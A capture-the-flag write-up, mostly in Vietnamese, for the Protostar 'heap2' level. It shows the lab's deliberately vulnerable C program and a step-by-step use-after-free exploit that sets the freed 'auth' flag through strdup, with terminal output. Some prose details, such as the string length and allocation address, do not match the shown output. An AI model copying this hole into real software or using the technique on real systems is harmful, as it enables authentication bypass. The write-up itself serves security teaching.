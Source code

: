 # HEAP TWO

## About

This level examines what can happen when heap pointers are stale.

This level is completed when you see the “you have logged in already!” message

This level is at /opt/protostar/bin/heap2

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv)
{
  char line[128];

  while(1) {
    printf("[ auth = %p, service = %p ]\n", auth, service);

    if(fgets(line, sizeof(line), stdin) == NULL) break;
    
    if(strncmp(line, "auth ", 5) == 0) {
      auth = malloc(sizeof(auth));
      memset(auth, 0, sizeof(auth));
      if(strlen(line + 5) < 31) {
        strcpy(auth->name, line + 5);
      }
    }
    if(strncmp(line, "reset", 5) == 0) {
      free(auth);
    }
    if(strncmp(line, "service", 6) == 0) {
      service = strdup(line + 7);
    }
    if(strncmp(line, "login", 5) == 0) {
      if(auth->auth) {
        printf("you have logged in already!\n");
      } else {
        printf("please enter your password\n");
      }
    }
  }
}
```

## Solutions

`HEAP TWO` là một cấp độ đơn giản giới thiệu những gì xảy ra với con trỏ dữ liệu của người dùng sau khi `chunk heap` được cấp phát bị `free()`. Đó thực sự là một ví dụ điển hình về `Use After Free [UAF]`. Mục tiêu của chúng ta ở đây là để chương trình in `"you have logged in already!"`.

Chương trình có một vài chức năng như `auth`, `reset`, `service` và `login`. Chúng ta sẽ thử chạy chương trình.

```
root@protostar:/opt/protostar/bin# ./heap2
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
login
please enter your password
[ auth = 0x804c008, service = (nil) ]
service AAAA
[ auth = 0x804c008, service = 0x804c008 ]
login
please enter your password
[ auth = 0x804c008, service = 0x804c008 ]
```

Chúng tôi nhận thấy rằng con trỏ `auth` vẫn trỏ đến vị trí bộ nhớ ban đầu sau lệnh `reset` - gọi tới hàm `free()` giải phóng bộ nhớ được cấp phát động bằng con trỏ `auth`. Hơn nữa chức năng `login` vẫn tham chiếu tới `auth->auth` tại vị trí đó sau khi đã được giải phóng. Bây giờ mục tiếu của chúng ta là ghi đè giá trị của `auth->auth` bằng 1.

Chúng ta sẽ nói qua về `strdup()`, nó nhân bản chuỗi được truyền cho nó vào con trỏ được gán và vùng nhớ đó là trên Heap memory. Bạn có thể xem qua đoạn code C mô tả sau - tôi lấy nó trên `stackoverflow`.

```
char *strdup(const char *src) {
    char *dst = malloc(strlen (src) + 1);  // Space for length plus nul
    if (dst == NULL) return NULL;          // No memory
    strcpy(dst, src);                      // Copy the characters
    return dst;                            // Return the new string
}
```

Và trong những lần chạy thử sau khi `reset` rồi gọi đến `service` địa chỉ của `service` nằm trên phần cấp phát động của `auth`.

```
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
service AAAA
[ auth = 0x804c008, service = 0x804c018 ]
```

```
                 0x804c018
[auth->name].....[service]......[auth->auth]
  |                             |          
  |_____________________________|
0x804c008       32             
```

Vì vậy, cách khai thác của chúng tôi là cấp phát một `struct auth` và giải phóng nó bằng lệnh `reset`. Tiếp theo, chúng tôi sử dụng lệnh `service` gọi hàm `strdup()` cấp phát bộ nhớ trên heap và ghi một chuỗi 16 ký tự `"1"` vì `strdup()` phân bổ bộ nhớ tại cùng một vị trí với `struct auth` được giải phóng. Mức này đủ đơn giản để chúng ta không cần phải quá chính xác về những gì hoặc bao nhiêu byte mà chúng ta viết `strdup()`.

Tiến hành khai thác.

```
root@protostar:/opt/protostar/bin# ./heap2
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
service 111111111111111111111111111111111
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!
[ auth = 0x804c008, service = 0x804c018 ]
```

## Documents

<https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf>

<https://sourceware.org/glibc/wiki/MallocInternals>

<https://encyclopedia.kaspersky.com/glossary/use-after-free/>

<https://cwe.mitre.org/data/definitions/416.html>



